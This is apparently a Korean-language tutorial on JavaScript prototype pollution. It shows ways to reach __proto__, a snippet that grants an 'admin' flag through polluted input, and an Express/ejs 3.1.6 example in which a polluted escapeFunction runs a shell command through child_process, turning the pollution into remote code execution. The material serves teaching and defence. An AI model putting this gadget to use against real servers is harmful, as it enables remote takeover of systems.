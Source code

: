 Prototype Pollution의 실용적인 접근을 위해 Prototype에 접근하는 다양한 방법을 알아보겠습니다.

7월 10일에 Ark가 X(구 Twitter)에 **“Tips: 7 ways to access __proto__ in JavaScript”**라는 게시글을 올렸습니다.

[https://x.com/arkark_/status/1943260773268230205](https://x.com/arkark_/status/1943260773268230205)

위와 같이 7가지 방법으로 prototype에 접근할 수 있습니다.

그러면 Prototype Pollution은 주로 어떤 상황에 발생할까요?

(이제부터 설명의 용이성을 위해 Prototype Pollution을 PP라 표기하겠습니다.)

**일반적으로 PP는 다음과 같은 상황에서 주로 발생**합니다.

```jsx
const obj = {};
const credential = {};

INPUT1 = '__proto__';
INPUT2 = 'admin';
INPUT3 = true;
obj[INPUT1][INPUT2] = INPUT3;

if (credential.admin) console.log('Hello Admin');
// Output : Hello Admin
```

위와 같이 유저의 INPUT이 객체 접근에 사용되고, 객체에 할당되는 값(INPUT3)를 조작할 수 있을 때 PP가 발생합니다. 이런 식으로 내부 변수를 조작하여 공격자는 원하는 동작을 이끌어 낼 수 있습니다.

## 공격 예시

### Prototype Pollution lead to RCE 사례

Server Side에서 Prototype Pollution이 발생할 시 RCE로 이어질 수 있다는 점을 보여주는 좋은 사례입니다.

(이해를 돕기 위해 Prototype Pollution을 코드에 직접 삽입하였습니다. USER INPUT을 통해 발생하는 사례도 충분히 가능합니다.)

버전 : 3.1.6

모듈 : ejs (NPM)

```jsx
// app.js
const express = require('express');
const app = express();
const PORT = 3000;
app.set('views', __dirname);
app.set('view engine', 'ejs');

Object.prototype.client = 1;
Object.prototype.escapeFunction = 'function(){};console.log(process.mainModule.require("child_process").execSync("dir").toString())';

app.get('/', (req, res) => {
    res.render('index');
});

app.listen(PORT, () => {
    console.log(`Server is running on ${PORT}`);
});
```
